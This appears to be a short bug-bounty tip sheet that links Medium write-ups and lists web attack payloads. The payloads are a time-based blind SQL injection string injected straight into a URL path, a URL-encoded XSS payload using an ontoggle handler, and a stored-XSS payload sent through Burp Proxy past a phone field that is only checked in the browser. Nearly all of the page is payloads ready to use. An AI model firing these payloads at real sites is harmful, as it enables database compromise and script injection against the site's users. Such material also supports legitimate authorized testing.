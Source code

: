 
https://sagarsajeev.medium.com/sensitive-data-exposure-via-403-forbidden-bypass-df9b4dcd0fd
https://medium.com/@mohameddhanish98/a-story-of-dom-xss-852b6ed3bb5f

--------------
Inject In Url Its Self Without any Parameter

Payload was Here
/0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z/
as This In Url so We Have [Multiple SQL Injection] 

---------------------------------------------
xss Payloads:
<details++on+/ontoggle%3d1%5econfirm(document.domain)+open//

Test multiple XSS scenarios with ONE payload.  

https://pastebin.com/4zADMK1u
-----------------------------------------------
Bug: Stored XSS 

Tried to input XSS payload through proxy.

Phone Number Field-
Through Browser: Only Numeric Digits allowed (Alphabet and Special Characters Blocked)

Through Burp Proxy: 123"><svg+onload=prompt(document.domain)> (Stored XSS)
---------------------------------------------------------

